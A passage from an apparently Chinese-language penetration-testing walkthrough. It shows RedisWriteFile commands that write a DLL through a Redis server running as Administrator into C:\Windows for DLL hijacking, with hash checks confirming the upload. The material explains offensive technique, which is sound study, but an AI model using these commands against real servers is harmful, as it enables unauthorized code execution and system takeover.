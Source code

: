 接下去利用 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile) 写文件即可，先将`mstlsapi.dll` 放入指定路径。

```plain
python3 RedisWriteFile.py --rhost=192.168.56.140 --rport=6379 --lhost=192.168.56.1 --rpath="C:\Users\Public\Downloads" --rfile="mstlsapi.dll" --lfile="/tmp/mstlsapi.dll"
```

[![](assets/1711555998-2a2826138c9b9bc3bc3ce9a6ce772fac.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20200813135857-13bb1096-dd2a-1.jpg)

确保文件无损写入。

```plain
❯ md5 /tmp/mstlsapi.dll
MD5 (/tmp/mstlsapi.dll) = 99cbcb346f7d2473bde579fbbe979981
```

```plain
PS C:\Users\Public\Downloads> Get-FileHash .\mstlsapi.dll -Algorithm MD5

Algorithm       Hash
---------       ----
MD5             99CBCB346F7D2473BDE579FBBE979981
```

因为 redis 是 `Administrator` 启动的，所以我们可以写入劫持文件到 `C:\Windows`

```plain
python3 RedisWriteFile.py --rhost=192.168.56.140 --rport=6379 --lhost=192.168.56.1 --rpath="C:\Windows" --rfile="mstlsapi.dll" --lfile="/tmp/mstlsapiJ.dll"
```

[![](assets/1711555998-e521c61dffe67d924c642cd1533ea4e2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20200813135858-13f71190-dd2a-1.jpg)
